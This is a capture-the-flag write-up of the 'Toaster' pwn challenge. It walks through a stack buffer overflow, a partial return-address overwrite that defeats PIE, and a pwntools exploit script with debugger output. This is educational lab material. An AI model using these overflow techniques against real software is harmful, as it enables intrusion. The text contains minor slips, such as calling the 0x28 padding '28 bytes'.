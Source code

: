 # VUCTF2025 Toaster
This pwn challenge is a classic ret2win challenge. 

The main function contains calls to `menu()`, which simply prints some text, and to a vulnerable function `kitchen()`.
```
void main(void) {
  menu();
  kitchen();
  return;
}
```
The `kitchen()` function contains a 32 byte buffer, but reads up to 0x42 bytes to it, allowing for a buffer overflow:
```
void kitchen(void) {
  undefined1 local_28 [32];
  
  puts("Please give me your secret recipe? ");
  read(0,local_28,0x42);
  return;
}
```
The binary also contains a `toast()` function, which reads and prints the flag when reached:
```
void toast(void) {
  ...
  
  puts("You managed to make the perfect toast, please enjoy it!");
  iVar1 = setuid(0);
  if (iVar1 == 0) {
    local_c = open("/flag.txt",0);
    if (local_c < 0) {
      perror("open failed");
    }
    else {
      ...
      sVar2 = read(local_c,&local_78,99);
      local_10 = (int)sVar2;
      if (local_10 < 1) {
        perror("read failed");
      }
      else {
        write(1,"FLAG: ",6);
        write(1,&local_78,(long)local_10);
        close(local_c);
      }
    }
  }
  else {
    perror("setuid failed");
  }
  return;
}
```
The challenge is thus clear, we have to overflow the buffer in `kitchen()` to overwrite the return pointer on the stack and return into `toast()`.
However, it is made a bit more difficult by the enabled protections:
```
$ checksec toaster 
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
The main issue is that PIE is enabled, causing the binary to be loaded at a randomized address. This means we won't know the address of `toast()` to return to. 
However, the offsets of functions inside the binary will still be equal. When inspecting the binary we can see that the address of the `toast()` function (`0x0010127d`) is close to the address of `main()` (`0x001013f7`), which the return address of `kitchen()` points to.
This offers an attack vector that can circumvent ASLR. We can try to overwrite only the last byte(s) of the address, leaving the randomised part of the address intact. 
This is possible as the addresses are stored in little endian, meaning the final characters of the address are stored first in memory.

To get a better view of what the randomised address will look like, we can inspect some example loaded addresses of the functions:
```
pwndbg> x toast
0x564a64fd527d <toast>: 0xfa1e0ff3
pwndbg> x main
0x564a64fd53f7 <main>:  0xfa1e0ff3
```
When comparing this to another run, we can see that the final three characters are always the same, but all the characters before those are random:
```
pwndbg> x toast
0x55d0d5d7127d <toast>: 0xfa1e0ff3
pwndbg> x main
0x55d0d5d713f7 <main>:  0xfa1e0ff3
```
We thus have to overwrite the final three characters of the return pointer with `27d` to return to `toast()`. The problem is that we can only write bytes, and a single byte corresponds to two address characters.
We can thus either overwrite 2 or 4 characters, but not three. 
Luckily, this is where the randomness of the addresses can actually help us. We know the address has to end in `x27d`, where `x` is random every time.
However, we can simply choose any character for `x`, and run our attack multiple times until the randomised address loaded equals `x`. which will happen once every 16 runs on average as addresses are hexidecimal.
We can do this using the following pwntools script:
```
io = start()
toast_addr = 0x10127d
payload = b"A" * 0x28
payload += p64(toast_addr)
payload = payload[:0x2a]
io.sendafter(b"Please give me your secret recipe? \n", payload)
io.interactive()
```
This scripts sends 28 bytes of padding to reach the return address. This offset can be found by setting a breakpoint in `kitchen()` before the read, and inspecting the stack using pwndebug.
The result of this can be found below, where the stack shows the offset `0x28` contains the return pointer back to `main()`.

```
───────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────
   0x563038ee73c8 <kitchen+5>     mov    rbp, rsp               RBP => 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
   0x563038ee73cb <kitchen+8>     sub    rsp, 0x20              RSP => 0x7ffccb089740 (0x7ffccb089760 - 0x20)
   0x563038ee73cf <kitchen+12>    lea    rax, [rip + 0xdda]     RAX => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d6 <kitchen+19>    mov    rdi, rax               RDI => 0x563038ee81b0 ◂— 'Please give me your secret recipe? '
   0x563038ee73d9 <kitchen+22>    call   puts@plt                    <puts@plt>
 
 ► 0x563038ee73de <kitchen+27>    lea    rax, [rbp - 0x20]      RAX => 0x7ffccb089740 ◂— 0
   0x563038ee73e2 <kitchen+31>    mov    edx, 0x42              EDX => 0x42
   0x563038ee73e7 <kitchen+36>    mov    rsi, rax               RSI => 0x7ffccb089740 ◂— 0
   0x563038ee73ea <kitchen+39>    mov    edi, 0                 EDI => 0
   0x563038ee73ef <kitchen+44>    call   read@plt                    <read@plt>
 
   0x563038ee73f4 <kitchen+49>    nop    
─────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7ffccb089740 ◂— 0
01:0008│-018 0x7ffccb089748 —▸ 0x7ffccb089898 —▸ 0x7ffccb08b222 ◂— 'COLORFGBG=15;0'
02:0010│-010 0x7ffccb089750 —▸ 0x7fe642423000 (_rtld_global) —▸ 0x7fe642424310 —▸ 0x563038ee6000 ◂— 0x10102464c457f
03:0018│-008 0x7ffccb089758 —▸ 0x563038ee727a (menu+113) ◂— nop 
04:0020│ rbp 0x7ffccb089760 —▸ 0x7ffccb089770 ◂— 1
05:0028│+008 0x7ffccb089768 —▸ 0x563038ee7413 (main+28) ◂— nop 
06:0030│+010 0x7ffccb089770 ◂— 1
07:0038│+018 0x7ffccb089778 —▸ 0x7fe642200ca8 (__libc_start_call_main+120) ◂— mov edi, eax

```
This offset is then followed by the last 2 bytes of the address of `toast()` (`0x127d`).

The full script can be found [here](https://github.com/TSpeel/writeups/blob/main/VUCTF2025/Toaster/exploit.py). Remember, the script has to be run on average 16 times to be successful.

## `sendafter()` vs `sendlineafter()`
When I first attempted the challenge, I was having issues where I was not just overwriting the return pointer with `0x0x127d`, but with `0x0a127d`. 
Debugging this cost me quite some time, but it ended up being caused by the fact that my exploit script at this point used `sendlineafter()` instead of `sendafter()`.
`sendlineafter()` also sends a newline character, which ended up becoming `0a` in the return address. Swapping out this function with `sendafter()` solved this problem.
